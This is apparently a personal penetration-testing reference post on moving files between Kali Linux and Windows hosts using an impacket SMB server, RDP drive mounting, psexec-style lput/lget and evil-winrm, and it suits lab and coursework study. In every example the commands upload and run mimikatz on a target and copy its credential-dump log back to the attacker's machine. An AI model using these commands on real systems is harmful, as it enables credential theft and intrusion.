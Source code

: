 ```yaml
---
layout: post
title: Windows to Linux File Transfers
tag: [reference]
---
```


![](https://imgs.xkcd.com/comics/file_transfer.png)
_A relevant xkcd comic for your pleasure._

Transferring files from windows to linux can be annoying. Anyway you do it requires remembering some command line options for whatever tool you're using, which is why this post is being made as a reference for myself.

Here are the methods:

## SMB: 
Start server on linux:
```bash
impacket-smbserver test . -smb2support  -username USERNAME -password PASSWORD
```

then in Windows:
```powershell
net use m: \\Kali_IP\sharename /user:USERNAME PASSWORD

copy mimikatz.log m:\
```

## RDP: Mounting Shared Folders
### xfreerdp
Linux:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-200
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

### rdesktop

Linux:
```bash
rdesktop -z -P -x m -u USERNAME -p PASSWORD XXX.XXX.XXX.XXX -r disk:test=/home/kali/Documents/
```

Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```

## smpacket tools
> `psexec` and `wmiexec` are shipped with built in feature for file transfer.
{: .prompt-info}

> **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
{: .prompt-info}

Uploading mimikatz.exe to the target machine:
```powershell
lput mimikatz.exe

cd C:\windows

dir /b mimikatz.exe

mimikatz.exe
```

Downloading mimikatz.log:

```bash
lget mimikatz.log
```

## Evil-winrm

Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```

Downloading files:
```bash
download mimikatz.log /home/kali/Documents
```

